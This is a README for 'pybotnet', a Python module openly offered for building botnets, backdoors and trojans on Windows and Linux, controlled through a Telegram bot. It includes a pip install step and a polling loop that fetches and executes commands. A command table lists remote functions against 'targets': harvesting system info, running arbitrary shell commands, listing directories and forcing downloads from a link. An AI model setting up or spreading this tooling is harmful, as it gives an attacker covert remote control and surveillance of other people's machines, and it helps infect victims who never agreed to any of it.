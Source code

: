   
<h1 align="center">pybotnet</h1>
<p align="center"> A Python module for building [botnet ,backdoor or trojan] for windows and linux with Telegram control panel </p>




#### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* for more see commands table end of this page 

See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3


#### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)

#### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# Edit this section and enter your information:
TELEGRAM_TOKEN = '1468299547:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'



# * if you compile code without shell: is_sheel=False
# * show_log: just for debugging
# * send_system_data: send system short info in bot messages

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

#### Commmands:

*Send this COMMANDs to your api bot in telegram, using the admin account.* \
\
*If you want the command to run only on one system, write the MAC address of that system first, like:* `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <download_link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows |
